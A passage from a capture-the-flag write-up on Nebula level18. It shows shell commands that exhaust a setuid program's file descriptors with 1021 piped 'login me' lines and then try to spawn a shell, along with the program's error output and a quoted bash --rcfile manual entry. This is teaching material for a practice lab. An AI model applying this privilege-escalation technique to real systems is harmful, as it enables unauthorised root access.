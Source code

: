 *1024* is the limit. So let's open 1024 files and see what happens. As we have
a few file descriptors open already we just need to open 1021 more.

{% highlight console %}
level18@nebula:/home/flag18$ python -c "print('login me\n'*1021 + 'shell')" | ./flag18 -v -d /tmp/flag18/debug
./flag18: error while loading shared libraries: libncurses.so.5: cannot open shared object file: Error 24
{% endhighlight %}

Ah, so many file descriptors we can't open any more, not even to shared libraries.
We can close one and see how that goes.

{% highlight console %}
level18@nebula:/home/flag18$ python -c "print('login me\n'*1021 + 'closelog\n' + 'shell')" | ./flag18 -v -d /tmp/flag18/debug
./flag18: -d: invalid option
Usage:	./flag18 [GNU long option] [option] ...
	./flag18 [GNU long option] [option] script-file ...
GNU long options:
	--debug
	--debugger
	--dump-po-strings
	--dump-strings
	--help
	--init-file
	--login
	--noediting
	--noprofile
	--norc
	--posix
	--protected
	--rcfile
	--restricted
	--verbose
	--version
Shell options:
	-irsD or -c command or -O shopt_option		(invocation only)
	-abefhkmnptuvxBCHP or -o option
{% endhighlight %}

Right, so we need to remember that we're running `sh` here, and our arguments
are being passed to it. Unfortunately `-d` and such are not valid here. 
Time to read the manual....

> **--rcfile file**
> 
> Execute commands from file instead of the system wide 
> initialization file /etc/bash.bashrc and the standard personal 
> initialization file ~/.bashrc if the shell is interactive 
> (see INVOCATION below).

Ok, well, it's worth a shot.
